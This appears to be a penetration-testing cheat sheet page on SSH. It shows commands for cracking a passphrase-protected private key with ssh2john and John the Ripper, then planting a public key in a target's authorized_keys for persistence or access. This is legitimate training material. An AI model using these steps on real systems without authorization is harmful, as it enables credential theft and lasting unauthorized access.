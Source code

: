 # 22 - SSH

### **Cracking a Password-Protected `id_rsa` Private Key**

1.  Set secure permissions for the key:

    ```sh
    chmod 600 id_rsa
    ```
2.  Convert the RSA private key to John-the-Ripper format:

    ```bash
    ssh2john id_rsa > ssh.hash
    ```
3.  Crack the password:

    {% code overflow="wrap" %}
    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
    ```
    {% endcode %}
4.  _(Optional)_ Use custom rules for a more targeted attack:

    {% code overflow="wrap" %}
    ```bash
    sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
    john --wordlist=ssh.passwords --rules=sshRules ssh.hash
    ```
    {% endcode %}
5.  Once cracked, use the key to SSH into the target:

    ```bash
    ssh -i id_rsa daniela@192.168.50.244
    ```

### **Setting Up SSH Key-Based Access (Persistence or Initial Access)**

1.  Generate SSH key pair on your machine:

    ```bash
    ssh-keygen -t rsa -b 4096
    ```
2. Copy the content of `id_rsa.pub`.
3.  On the target machine:

    {% code overflow="wrap" %}
    ```bash
    mkdir -p ~/.ssh # in home dir
    chmod 700 ~/.ssh
    nano ~/.ssh/authorized_keys  # paste the public key content
    chmod 600 ~/.ssh/authorized_keys
    ```
    {% endcode %}
4.  Back on your machine, SSH into the target:

    ```bash
    ssh username@target_ip
    ```
